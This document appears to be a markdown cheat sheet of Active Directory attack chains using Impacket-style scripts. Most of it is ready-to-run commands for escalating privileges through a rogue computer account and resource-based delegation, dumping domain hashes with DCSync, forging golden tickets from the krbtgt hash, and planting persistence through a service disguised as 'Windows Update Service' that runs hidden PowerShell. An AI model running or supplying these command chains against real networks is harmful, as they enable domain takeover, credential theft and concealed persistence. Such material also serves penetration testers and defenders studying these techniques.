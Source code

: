 ## Privilege Escalation Chains

### Computer Account Abuse Chain
```bash
# Step 1: Add computer account
python3 addcomputer.py domain.com/user:password -computer-name EVILPC$ -computer-pass EvilPass123

# Step 2: Configure RBCD
python3 rbcd.py domain.com/user:password -action write -delegate-from EVILPC$ -delegate-to TARGET$

# Step 3: Request service ticket
python3 getST.py domain.com/EVILPC$:EvilPass123 -spn cifs/TARGET$.domain.com -impersonate administrator

# Step 4: Use ticket for access
export KRB5CCNAME=administrator.ccache
python3 psexec.py -k -no-pass TARGET$.domain.com
```

### DCSync Attack Chain
```bash
# Method 1: Direct DCSync (requires DA/EA privileges)
python3 secretsdump.py domain.com/domain_admin:password@dc.domain.com -just-dc

# Method 2: RBCD to DCSync
python3 rbcd.py domain.com/user:password -action write -delegate-from ATTACKER$ -delegate-to DC$
python3 getST.py domain.com/ATTACKER$:password -spn ldap/DC$.domain.com -impersonate administrator
export KRB5CCNAME=administrator.ccache
python3 secretsdump.py -k -no-pass domain.com@dc.domain.com -just-dc
```

## Persistence Methodologies

### Golden Ticket Persistence
```bash
# Step 1: Extract krbtgt hash via DCSync
python3 secretsdump.py domain.com/domain_admin:password@dc.domain.com -just-dc-user krbtgt

# Step 2: Create golden ticket
python3 ticketer.py -nthash krbtgt_hash -domain-sid domain_sid -domain domain.com administrator

# Step 3: Use golden ticket
export KRB5CCNAME=administrator.ccache
python3 psexec.py -k -no-pass dc.domain.com
```

### Service-Based Persistence
```bash
# Step 1: Access target system
python3 psexec.py domain.com/administrator:password@target.domain.com

# Step 2: Create persistent service (in psexec shell)
sc create "Windows Update Service" binPath= "cmd.exe /c powershell.exe -WindowStyle Hidden -Command ..."
sc config "Windows Update Service" start= auto
sc start "Windows Update Service"

# Step 3: Use WMI for persistence
python3 wmipersist.py domain.com/administrator:password@target.domain.com
```
